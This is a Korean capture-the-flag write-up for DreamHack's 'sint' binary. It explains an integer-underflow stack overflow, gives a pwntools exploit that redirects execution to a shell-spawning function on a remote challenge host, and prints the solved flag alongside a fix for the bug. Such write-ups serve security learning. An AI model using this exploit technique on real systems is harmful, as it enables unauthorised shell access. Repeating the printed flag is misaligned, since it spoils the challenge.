


# B1 · sint

### 1. 코드 분석 — 취약점 원인

프로그램은 입력한 길이를 검사한 뒤 `read(0, buf, size - 1)`로 데이터를 받는다.

```c
void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();
    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);
    return 0;
}
```

`size`에 `0`을 넣으면 범위 검사를 통과한다. 이후 `size - 1`은 `-1`이 되지만, `read()`의 길이 인자는 부호 없는 `size_t`라 매우 큰 값으로 변환된다. 그래서 `buf[256]`보다 긴 입력을 읽어 스택의 저장된 반환 주소까지 덮을 수 있다.

`0`은 길이 변수에 넣는 숫자이지 주소가 아니므로, 0 입력만으로 세그멘테이션 오류가 발생하지 않는다. 오버플로도 자동으로 SIGSEGV를 발생시키지는 않는다.

### 2. 셸 함수와 신호 처리

`get_shell()`은 `system("/bin/sh")`를 실행해 셸을 연다. `signal(SIGSEGV, get_shell)`은 실제 SIGSEGV가 발생했을 때 이 함수를 부르도록 등록하는 코드다. 등록하는 즉시 셸이 열리는 것은 아니다.

이번 페이로드는 SIGSEGV 처리 경로에 의존하지 않는다. 반환 주소 자체를 `get_shell`로 바꾸는 방식이다. 함수가 반환하면 CPU가 저장된 반환 주소로 이동하므로, 원래 실행 흐름 대신 `get_shell()`이 실행된다.

### 3. 익스플로잇 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 23996)

e = ELF("./sint")
get_shell = e.symbols["get_shell"]

p.sendlineafter(b"Size: ", b"0")
p.sendlineafter(b"Data: ", b"A" * (0x100 + 4) + p32(get_shell))
p.interactive()
```

<p align="center">
  
</p>

- `remote(host, port)`는 호스트와 포트로 문제 서버에 TCP 연결을 연다. URL의 `http://`는 넣지 않는다. 포트는 인스턴스마다 달라질 수 있으므로 현재 문제 페이지의 값을 사용한다.
- `ELF("./sint")`는 현재 폴더의 로컬 바이너리를 읽는다. `e.symbols["get_shell"]`은 바이너리 심볼 표에서 함수의 주소를 찾는다. 원격 서버와 같은 바이너리여야 주소가 일치한다.
- `A`는 반환 주소까지 도달하기 위한 패딩 문자다. 이 문제 바이너리에서 확인한 오프셋은 `0x100 + 4 = 260`바이트다. `0x100`은 256바이트 버퍼이고, 추가 4바이트는 저장된 EBP다. 실제 오프셋은 컴파일된 스택 배치에 따라 확인해야 한다.
- `p32(get_shell)`은 함수 주소를 32비트 리틀엔디언 4바이트로 변환한다. 패딩 다음에 이 값을 보내 저장된 반환 주소를 `get_shell` 주소로 바꾼다. 주소 자체를 담는 이 4바이트는 패딩 길이와 별도다.
- `sendlineafter(prompt, data)`는 프롬프트가 도착할 때까지 받은 다음 데이터를 줄바꿈과 함께 보낸다. 첫 호출은 `Size:`에 0을 보내고, 다음 호출은 `Data:`에 오버플로 페이로드를 보낸다.
- `PIE`가 꺼져 있으면 실행 파일의 코드 주소가 고정되어 심볼 주소를 직접 사용할 수 있다. PIE가 켜져 있으면 실행할 때 코드 위치가 달라질 수 있어 주소 누출 등이 필요하다. PIE 비활성화가 스택과 라이브러리까지 고정한다는 뜻은 아니다.

### 4. 셸에서 FLAG 확인

`p.interactive()`는 원격 연결과 현재 터미널 사이에 입력·출력을 이어 준다. 셸 프롬프트 `$`가 나타나면 원격 `/bin/sh`가 열린 것이다. 이 함수가 FLAG를 자동으로 읽는 것은 아니므로 셸에서 직접 명령을 입력한다.

```sh
cat flag
```

`cat`은 현재 디렉터리의 `flag` 파일 내용을 출력한다. 실행 결과에서 FLAG가 출력된 것을 확인했다.

<p align="center">
  
</p>


### 5. DreamHack FLAG 입력란에 제출

터미널에 출력된 FLAG를 복사해 DreamHack 문제 페이지의 **FLAG 입력란**에 붙여 넣고 제출한다. 입력할 값은 아래와 같다.

```text
DH{d66e84c453b960cfe37780e8ed9d70ab}
```

제출 후 문제 페이지에 정답 처리 표시가 나타나는지 확인한다. 위 실행 사진은 셸에서 FLAG를 출력한 결과이며, 제출 버튼을 누른 화면은 포함하지 않았다.

### 6. 취약점 예방법

입력값을 뺄셈하기 전에 유효 범위인지 검사하고, 검증된 크기만 `read()`에 전달한다. 버퍼 용량을 넘지 않도록 제한하면 음수에서 큰 unsigned 값으로 바뀌는 문제를 막을 수 있다.

```c
if (size < 1 || size > (int)sizeof(buf)) {
    puts("Invalid size");
    return 1;
}

ssize_t received = read(STDIN_FILENO, buf, (size_t)size);
```

실제 문자열 입력이라면 마지막에 널 문자를 넣을 공간을 남겨 `sizeof(buf) - 1`까지만 읽어야 한다. 또한 SIGSEGV가 났을 때 셸을 실행하는 `signal(SIGSEGV, get_shell)`은 제거하고, 오류를 기록한 뒤 종료하도록 처리해야 한다.

스택 카나리와 PIE 같은 컴파일 보호 기법도 추가 방어층이 될 수 있지만, 안전한 길이 검사를 대신하지는 않는다. NX는 스택에 넣은 코드를 실행하는 공격을 어렵게 하지만, 이 문제처럼 기존 함수 주소로 흐름을 바꾸는 공격을 단독으로 막지는 못한다.

**취약점 원인:** 0을 거르는 검사가 없어 `size - 1`이 음수가 되고, 이 값이 `read()`의 큰 unsigned 길이로 변환되어 스택 버퍼를 넘는다. 뺄셈 전에 범위를 검증하고 `read()` 길이를 버퍼 크기 이하로 제한해야 한다.
